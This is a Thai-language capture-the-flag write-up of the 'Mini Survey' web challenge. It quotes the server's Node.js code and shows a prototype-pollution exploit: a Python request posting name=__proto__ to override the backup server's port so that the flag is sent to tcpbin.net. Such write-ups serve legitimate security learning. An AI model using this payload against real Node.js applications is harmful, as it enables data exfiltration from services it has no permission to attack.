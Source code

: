 # web/Mini Survey

## index.js
```js
const updateDBs = require("./serverComs");
...
app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };
    
    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
...
```
งืม~~ ยังไม่เห็นไรมาก ลองไปดู func updateDBs ดีกว่า

## serverComs.js
```js
...
backupServerHost = "";
backupServerPort = "";

function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {backupServerHost = data.host}
    if (data.port != undefined) {backupServerPort = data.port}

    const options = {host: backupServerHost || "localhost", port: backupServerPort || "8888" };
    console.log("options:",options);

    const socket = net.connect(options, () => {
        socket.write(postData);
        socket.end();
    });
    ...
}
function updateDBs(dataObj, original) {
    let commData = Object.create(dataObj);
    commData["flag"] = "nite{FAKE_FLAG}";
    commData["log"] = "new entry added";
    sendData(commData);
    return original;
}
...
```
func updateDBs จะเพิ่ม flag เข้าไปใน commData (dataObj ที่ถูก clone มา) และก็จะเรียก func sendData เพื่อเชื่อมต่อ แบบ tcp ไปยังที่ไหนสักที่ และก็ส่ง postData ที่มี flag อยู่ไป

## ทำไงล่ะทีนี้?
ผมไปเจอ https://t.ly/EgVId พบว่าเราสามารถใช้ `__proto__` เพื่อไป set prop ของ object อื่นๆได้ (ถ้าทฤษฎีเพี้ยนอย่าโกรธกันเลย) ผมก็เลยได้ script เพื่อเอา flag คร่าวๆประมาณนี้
```python
from requests import request
payload = 'name=__proto__&city=port&pollutionRate=47183' # city = key, pollutionRate = value
request("POST", "??", headers={'Content-Type':'application/x-www-form-urlencoded'}, data=payload)
```
ส่วน host, port ก็ใช้ tcpbin.net เอาครับ

## Flag
`nite{pr0t0_p0llut3d_116a4601b79d6b8f}`
(`nite{9wd_t0_th3_r35cu3_dp54kf}` fake flag in prod 🤣)

![firstblood](firstbloodXD.png)

ได้ firstblood ครั้งแรกคั้บบบ~~

